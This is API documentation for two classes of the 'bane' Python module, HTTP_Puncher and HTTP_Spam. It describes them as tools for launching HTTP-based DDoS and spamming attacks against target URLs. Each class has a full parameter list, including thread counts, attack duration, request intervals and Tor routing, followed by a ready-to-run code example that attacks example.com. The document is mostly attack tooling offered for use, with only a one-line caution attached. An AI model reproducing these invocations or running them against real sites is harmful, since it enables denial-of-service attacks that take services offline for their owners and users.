 <h1>HTTP_Puncher Class</h1>

<h2>Class Overview</h2>
<p>The <code>HTTP_Puncher</code> class is part of the "bane" module and is used for launching HTTP-based DDoS attacks on a target URL.</p>

<h2>Class Constructor</h2>
<pre><code>class HTTP_Puncher(DDoS_Class)
</code></pre>
<p>This constructor initializes an instance of the <code>HTTP_Puncher</code> class with the following parameters:</p>

<ul>
    <li><code>u</code> (str): The target URL for the DDoS attack.</li>
    <li><code>send_files</code> (bool): Enable or disable sending files in the attack (default is True).</li>
    <li><code>cookie</code> (str): Custom cookies to include in requests.</li>
    <li><code>user_agents</code> (list): List of custom User-Agent headers for requests.</li>
    <li><code>method</code> (int): HTTP request method (1 for GET, 2 for POST, 3 for random; default is 3).</li>
    <li><code>threads_daemon</code> (bool): Set threads as daemons (default is True).</li>
    <li><code>urls</code> (list): List of target URLs for the attack (default is an empty list).</li>
    <li><code>threads</code> (int): Number of threads for the attack (default is 500).</li>
    <li><code>timeout</code> (int): Request timeout in seconds (default is 5).</li>
    <li><code>duration</code> (int): Duration of the attack in seconds (default is 60).</li>
    <li><code>logs</code> (bool): Enable or disable logging (default is False).</li>
    <li><code>tor</code> (bool): Use Tor for requests (default is False).</li>
    <li><code>scrape_target</code> (bool): Scrape additional URLs for the attack (default is True).</li>
    <li><code>scraped_urls</code> (int): Number of scraped URLs (default is 32).</li>
</ul>

<h2>Methods</h2>
<h3><code>attack(self)</code></h3>
<p>This method initiates the DDoS attack by sending HTTP requests to the target URL with random headers and data. It operates in a separate thread.</p>

<h2>Example Usage</h2>
<p>To use the <code>HTTP_Puncher</code> class, create an instance of it by providing the required parameters, and it will start launching DDoS attacks in the background. Here's an example:</p>

<pre><code>
from bane.ddos import HTTP_Puncher

# Create an instance of HTTP_Puncher
ddos_attack = HTTP_Puncher(
    u="https://example.com",
    send_files=True,
    cookie="CustomCookie",
    user_agents=["UserAgent1", "UserAgent2"],
    method=3,
    threads_daemon=True,
    urls=["https://example.com/page1", "https://example.com/page2"],
    threads=500,
    timeout=5,
    duration=60,
    logs=True,
    tor=False,
    scrape_target=False,
    scraped_urls=5
)

# DDoS attack is launched in the background
# Monitor the attack's progress as needed

# To stop the attack, you can set ddos_attack.stop = True

# Be cautious and responsible when using DDoS attacks in a real environment.
</code></pre>
<h1>HTTP_Spam Class</h1>

<h2>Class Overview</h2>
<p>The <code>HTTP_Spam</code> class is part of the "bane" module and is used for performing HTTP spamming attacks on a target URL.</p>

<h2>Class Constructor</h2>
<pre><code>class HTTP_Spam(DDoS_Class)
</code></pre>
<p>This constructor initializes an instance of the <code>HTTP_Spam</code> class with the following parameters:</p>

<ul>
    <li><code>u</code> (str): The target URL for the spamming attack.</li>
    <li><code>p</code> (int): Port number (default is 80).</li>
    <li><code>cookie</code> (str): Custom cookies to include in requests.</li>
    <li><code>user_agents</code> (list): List of custom User-Agent headers for requests.</li>
    <li><code>method</code> (int): HTTP request method (1 for GET, 2 for POST, 3 for random; default is 3).</li>
    <li><code>threads_daemon</code> (bool): Set threads as daemons (default is True).</li>
    <li><code>paths</code> (list): List of URL paths to target (default is ["/"]).</li>
    <li><code>threads</code> (int): Number of threads for the spamming attack (default is 256).</li>
    <li><code>post_min</code> (int): Minimum number of POST requests to send per round (default is 5).</li>
    <li><code>post_max</code> (int): Maximum number of POST requests to send per round (default is 10).</li>
    <li><code>post_field_min</code> (int): Minimum length of POST request fields (default is 50).</li>
    <li><code>post_field_max</code> (int): Maximum length of POST request fields (default is 100).</li>
    <li><code>timeout</code> (int): Request timeout in seconds (default is 5).</li>
    <li><code>round_min</code> (int): Minimum number of rounds to run (default is 1000).</li>
    <li><code>round_max</code> (int): Maximum number of rounds to run (default is 10000).</li>
    <li><code>interval</code> (float): Time interval between requests (default is 0.001).</li>
    <li><code>duration</code> (int): Duration of the attack in seconds (default is 60).</li>
    <li><code>tor</code> (bool): Use Tor for requests (default is False).</li>
    <li><code>ssl_on</code> (bool): Enable SSL/TLS for requests (default is False).</li>
    <li><code>logs</code> (bool): Enable or disable logging (default is True).</li>
</ul>

<h2>Methods</h2>
<h3><code>attack(self)</code></h3>
<p>This method initiates the HTTP spamming attack by sending HTTP requests to the target URL with random headers and data. It operates in a separate thread.</p>

<h2>Example Usage</h2>
<p>To use the <code>HTTP_Spam</code> class, create an instance of it by providing the required parameters, and it will start performing HTTP spamming attacks in the background. Here's an example:</p>

<pre><code>
from bane.ddos import HTTP_Spam

# Create an instance of HTTP_Spam
http_spam = HTTP_Spam(
    u="https://example.com",
    p=80,
    cookie="CustomCookie",
    user_agents=["UserAgent1", "UserAgent2"],
    method=3,
    threads_daemon=True,
    paths=["/"],
    threads=256,
    post_min=5,
    post_max=10,
    post_field_min=50,
    post_field_max=100,
    timeout=5,
    round_min=1000,
    round_max=10000,
    interval=0.001,
    duration=60,
    tor=False,
    ssl_on=False,
    logs=True
)

# HTTP spamming attack is performed in the background
# Monitor the attack's progress as needed

# To stop the attack, you can set http_spam.stop = True

# Be cautious and responsible when using such attack techniques in a real environment.
</code></pre>

